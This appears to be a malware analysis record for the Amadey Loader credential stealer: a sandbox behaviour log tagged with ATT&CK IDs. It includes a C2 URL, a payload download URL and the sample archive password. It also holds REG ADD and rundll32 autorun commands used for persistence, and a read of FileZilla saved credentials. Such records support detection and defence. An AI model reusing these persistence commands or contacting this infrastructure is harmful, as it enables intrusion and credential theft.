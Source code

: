 # Amadey Loader

Version 1.76

password : infected

c2 : http[:]//170.130.55[.]77/s1Qa9vCs/index.php


T1106 -  Starts itself from another location

cmdChild: c:\programdata\5a997433d2\gbnn.exe

cmdParent: "C:\Users\admin\AppData\Local\Temp\load.exe"

image: c:\programdata\5a997433d2\gbnn.exe

time: 688 ms


T1129 -  rundll32.exe - Loads dropped or rewritten executable


T0185 - Uses RUNDLL32.EXE to load library

cmdline: rundll32.exe C:\Users\admin\AppData\Local\Temp\cred.dll, Main

image: C:\Windows\system32\rundll32.exe

time: 23422 ms


T1060 -  REG.exe - Changes the autorun value in the registry

key: HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run

name: scr

operation: write

typeValue: REG_SZ

value: rundll32 C:\Users\admin\AppData\Local\Temp\scr.dll, Main

time: 23829 ms


T1060 -  REG.exe - Changes the autorun value in the registry

key: HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run

name: cred

operation: write

typeValue: REG_SZ

value: rundll32 C:\Users\admin\AppData\Local\Temp\cred.dll, Main

time: 23500 ms


T1060 -  REG.exe - Changes the Startup folder

key: HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders

name: Startup

operation: write

typeValue: REG_SZ

value: C:\ProgramData\5a997433d2

time: 1282 ms


T1088 - DllHost.exe - Known privilege escalation attack

cmdline: "C:\Users\admin\AppData\Local\Temp\chil16d.exe"

image: C:\Users\admin\AppData\Local\Temp\chil16d.exe


T1112 - gbnn.exe - Uses REG.EXE to modify Windows registry

cmdline: REG ADD "HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders" /f /v Startup /t REG_SZ /d C:\ProgramData\5a997433d2

image: C:\Windows\system32\REG.exe

time: 1204 ms


T1085 - gbnn.exe -  Uses RUNDLL32.EXE to load library

cmdline: rundll32.exe C:\Users\admin\AppData\Local\Temp\cred.dll, Main

image: C:\Windows\system32\rundll32.exe

time: 23422 ms


T1081 - Rundll32.exe - Actions looks like stealing of personal data

access: READ_CONTROL, SYNCHRONIZE, FILE_READ_DATA, FILE_READ_EA, FILE_READ_ATTRIBUTES

created: SUPERSEDED

device: DISK_FILE_SYSTEM

name: C:\Users\admin\AppData\Roaming\FileZilla\sitemanager.xml

object: FILE

operation: CREATE

status: 0xC0000034

time: 23532 ms


T1012 - Query Registry

Uses REG.EXE to modify Windows registry

cmdline: REG ADD "HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders" /f /v Startup /t REG_SZ /d C:\ProgramData\5a997433d2

image: C:\Windows\system32\REG.exe

time: 1204 ms


T1105 - gbnn.exe - Downloads executable files from the Internet

host: 170.130.55.77

method: GET

process: c:\programdata\5a997433d2\gbnn.exe

request: http://170.130.55.77/s1Qa9vCs/cred.dll

time: 25160 ms



